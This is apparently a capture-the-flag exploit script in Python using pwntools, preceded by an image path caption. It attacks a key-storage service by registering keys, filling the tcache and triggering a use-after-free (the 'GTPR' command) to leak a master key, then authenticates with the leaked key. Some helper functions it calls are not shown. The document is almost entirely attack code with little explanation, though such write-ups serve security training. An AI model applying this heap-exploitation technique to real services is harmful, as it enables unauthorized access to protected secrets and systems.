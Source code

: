 ```python

def gen(length):
    alphabet = string.ascii_letters + string.digits
    return (''.join(secrets.choice(alphabet) for _ in range(length))).encode()

io.timeout = 5

log.info("Register and save the keys into the database to increase the file size...")


for i in range(1, 15):
    prog = log.progress("Registering new key", "...")
    key = b"hacker" + gen(1) + b":user " + gen(68) + b";"
    
    if reg(key):
       prog.success(key.decode())
    else:
       prog.failure(key.decode())

    prog = log.progress("Saving key: ", "...")
    
    if save(1):
       prog.success("Saved")
    else:
       prog.failure("Not Saved")
    
    delk(1)
    sleep(1)

for i in range(1, 8):
    reg(key)

MASTER_KEY = b"master:user " + gen(68) + b";"

log.info("Exploiting UAC")
log.info("Save the master key.")
reg(MASTER_KEY)
save(8)
reload_db()
auth(8)

log.info("Fill up tcache")

for i in range(1, 9):
    sleep(1)
    delk(i)
    
reload_db()

io.clean()
log.info("Getting master key...")

io.sendline(b"GTPR") # Getting the master key using the use-after-free
leak = io.readline()[9:-1]
log.info("Master key: {}".format(leak.decode()))

log.info("Authenticate with master key")
reg(leak)
io.readuntil(b"->")
ID = io.readline()

auth(int(ID[:-1]))
sleep(1)
```